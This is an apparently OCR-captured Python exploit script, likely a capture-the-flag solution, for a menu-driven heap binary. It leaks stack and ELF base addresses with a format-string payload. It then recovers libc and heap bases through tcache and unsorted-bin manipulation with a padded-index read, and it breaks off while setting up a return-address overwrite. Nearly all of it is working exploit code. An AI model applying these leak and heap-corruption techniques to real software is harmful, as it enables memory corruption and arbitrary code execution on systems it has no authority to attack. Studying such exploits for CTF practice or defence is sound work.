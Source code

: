 ```python
def menu(op):
    sla(">> ", str(op).encode())

def alloc(idx, size, content):
    menu(1)
    sla(": ", str(idx).encode())
    sla(": ", str(size).encode())
    sla(": ", content)

def view(idx):
    menu(2)
    sla(": ", str(idx).encode())
    rl()

def free(idx):
    menu(3)
    sla(": ", str(idx).encode())

def exploit():
    global io
    io = initialize()
    debug()
    with log.progress("Leak via Format String"), context.silent:
        alloc(1, 0x78, b"%p."*10)
        view(1)
        leaks = rl().split(b".")
        print(leaks)
        stack = int(leaks[0],16)
        ret = stack + 0x4878
        elf_leak = int(leaks[8],16)
        elf.address = elf_leak - (elf.sym["main"] + 249)
    leak("Stack address", hex(stack))
    leak("Return address", hex(ret))
    leak("Elf leak", hex(elf_leak))
    leak("ELF base address", hex(elf.address))
    with log.progress("Heap and Libc Leak"), context.silent:
        for i in range(9):
            alloc(2 + i, 0x78, b"A")
        for i in reversed(range(7)):
            free(1 + i)
        free(8)
        menu(2)
        sla(": ", b"8".rjust(1024,b"0"))
        rl()
        libc_leak = u64(rl().strip().ljust(8, b"\x00"))
        libc.address = libc_leak - (libc.sym["main_arena"] + 208)

        view(7)
        heap_leak = u64(rl().strip().ljust(8, b"\x00")) << 12
        heap = heap_leak
        for i in range(9):
            alloc(2 + i, 0x78, b"A")

    leak("Libc leak", hex(libc_leak))
    leak("Libc base address", hex(libc.address))
    leak("Heap leak", hex(heap_leak))
    leak("Heap base address", hex(heap))
    with log.progress("Overwrite ret address"), context.silent:
        for i in range(10):
            alloc(1 + i, 0x38, b"A")
        for i in reversed(range(7)):
            free(1 + i)
        free(8)
```